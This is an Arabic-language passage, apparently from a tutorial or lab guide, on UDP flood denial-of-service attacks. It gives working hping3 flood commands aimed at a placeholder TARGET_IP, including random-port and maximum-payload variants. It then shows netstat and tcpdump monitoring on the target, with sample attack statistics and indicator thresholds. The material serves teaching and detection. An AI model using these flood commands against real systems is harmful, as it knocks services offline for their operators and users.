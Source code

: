 **الشرح:**
- `--udp`: استخدام بروتوكول UDP
- `-p 53`: استهداف منفذ DNS
- `--flood`: إرسال بأقصى سرعة ممكنة

**هجوم مع منافذ عشوائية:**
```bash
sudo hping3 --udp --rand-dest --flood TARGET_IP
```

- `--rand-dest`: منافذ وجهة عشوائية
- يُضعف الخادم أكثر (يفحص كل منفذ)

**هجوم مع حجم حزمة كبير:**
```bash
sudo hping3 --udp -p 53 --flood -d 65500 TARGET_IP
```

- `-d 65500`: حجم البيانات (أقصى حد لـ UDP)
- يستهلك bandwidth أكثر

### 📊 المراقبة على الخادم المستهدف

#### عرض إحصائيات UDP

```bash
netstat -s | grep UDP
```

**مثال على النتائج أثناء الهجوم:**
```
UDP:
    125847 packets received
    98234 packets to unknown port received
    89123 packet receive errors
    45678 packets sent
    RcvbufErrors: 12345
    SndbufErrors: 0
    InErrors: 89123
```

#### مراقبة الحزم في الوقت الفعلي

```bash
# عرض معدل حزم UDP
watch -n 1 'netstat -su | grep "packets received"'

# مراقبة منافذ محددة
tcpdump -i eth0 udp port 53 -nn
```

**مؤشرات الهجوم:**
```
UDP packets/sec: 50,000+     🔴 (طبيعي: < 1,000)
Port Unreachable: 40,000+    🔴 (طبيعي: < 10)
Bandwidth usage: 90%+        🔴 (طبيعي: < 50%)
CPU usage: 100%              🔴 (طبيعي: < 30%)
```
